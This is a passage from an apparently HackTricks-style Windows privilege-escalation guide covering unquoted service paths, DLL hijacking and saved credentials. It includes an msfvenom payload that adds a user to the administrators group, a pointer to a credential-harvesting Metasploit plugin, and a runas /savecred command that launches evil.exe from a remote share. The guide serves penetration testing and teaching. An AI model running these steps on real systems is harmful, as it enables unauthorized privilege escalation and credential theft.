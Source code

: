 ```bash
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

**You can detect and exploit** this vulnerability with metasploit: _exploit/windows/local/trusted\_service\_path_  


You can manually create a service binary with metasploit:

```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```

## DLL Hijacking

Programs usually can't function by themselves, they have a lot of resources they need to hook into \(mostly DLL's but also proprietary files\). If a **program or service loads a file from a directory we have write access to**, we can abuse that to **pop a shell with the privileges the program runs with**.

**In order to learn more about how to** [**discover and exploit Dll Hijacking vulnerabilities read this**](dll-hijacking.md)**.**

## Credentials

### [MSF-Credentials Plugin](https://github.com/carlospolop/MSF-Credentials)

I have created this plugin to **automatically execute every metasploit POST module that searches for credentials** inside the victim.

### Credentials manager / Windows vault

From [https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault](https://www.neowin.net/news/windows-7-exploring-credential-manager-and-windows-vault)  
The Windows Vault stores user credentials for servers, websites and other programs that **Windows** can **log in the users automaticall**y. At first instance, this might look like now users can store their Facebook credentials, Twitter credentials, Gmail credentials etc., so that they automatically log in via browsers. But it is not so.

Windows Vault stores credentials that Windows can log in the users automatically, which means that any **Windows application that needs credentials to access a resource** \(server or a website\) **can make use of this Credential Manager** & Windows Vault and use the credentials supplied instead of users entering the username and password all the time.

Unless the applications interact with Credential Manager, I don't think it is possible for them to use the credentials for a given resource. So, if your application wants to make use of the vault, it should somehow **communicate with the credential manager and request the credentials for that resource** from the default storage vault.

```bash
cmdkey /list #List credential
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe" #Use saved credentials
```
